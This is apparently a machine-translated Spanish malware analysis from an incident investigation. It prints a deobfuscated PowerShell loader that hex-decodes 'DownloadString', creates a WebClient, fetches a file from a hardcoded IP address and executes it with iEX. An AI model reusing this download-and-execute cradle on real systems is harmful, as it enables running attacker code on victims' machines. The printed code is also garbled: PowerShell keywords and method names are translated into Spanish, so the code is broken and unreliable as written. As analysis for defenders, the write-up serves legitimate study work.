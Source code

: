 El segundo comando ejecuta un script de PowerShell. El código está ofuscado e intenta ocultar el verdadero propósito del código. A continuación se muestra el código desenfuscado

```jsx
función  H1 ( $i ) {
     $r = '' 
    for ( $n = 0 ; $n -lt $i .Longitud; $n += 2 ) {
         $r += [char][ int ]( '0x' + $i . Subcadena ( $n , 2 ))
    }
     return  $r
 }

 $H2 = ( nuevo - objeto ( '{1}{0}{2}' -f 'WebCL' , 'net.' , 'ient' ) )
 $H3 = H1 '446f776E' 
$H4 = H1 '6C6f' 
$H5 = H1 '616473747269' 
$H6 = H1 '6E67' 
$H7 = $H3 + $H4 + $H5 + $H6 
$H8 = $H2 . $H7 ( 'http://193.142.58.23/Server.txt' )
iEX $H8
```

El script contiene una función llamada H1($i) que recibe una cadena de entrada "$i", la interpreta como valores hexadecimales, los convierte a caracteres ASCII y los concatena.

Luego, crea un nuevo objeto llamado $H2 utilizando el cmdlet "New-Object". Sin embargo, los parámetros 'WebCL', 'net.' y 'ient' se concatenan para formar el nombre de clase de PowerShell "System.Net.WebClient".

En las siguientes líneas, el script llama a la función H1 cuatro veces con diferentes cadenas hexadecimales. Estas variables se utilizarán para formar una cadena que represente un comando de función.

Después de una serie de asignaciones y operaciones de ofuscadas, se obtiene el siguiente comando.

```jsx
( Nuevo - Objeto ( 'Net.WebClient' )). Cadena de descarga ( 'http://193.142.58.23/Server.txt' ).
```

Este comando almacena la variable “$H8”. El script intenta descargar y ejecutar código PowerShell desde la URL " http://193.142.58.23/Server.txt ". El verdadero contenido del archivo "Server.txt" se desconoce en el script proporcionado, pero puede ser un archivo malicioso.

A continuación revisaremos los registros:

Buscamos la IP de origen sospechosa.

Hay dos solicitudes. El primero fue la comunicación con nuestro host y el segundo fue una solicitud de Server.txt.

![Untitled](imgpablo/131.png)

![Untitled](imgpablo/132.png)
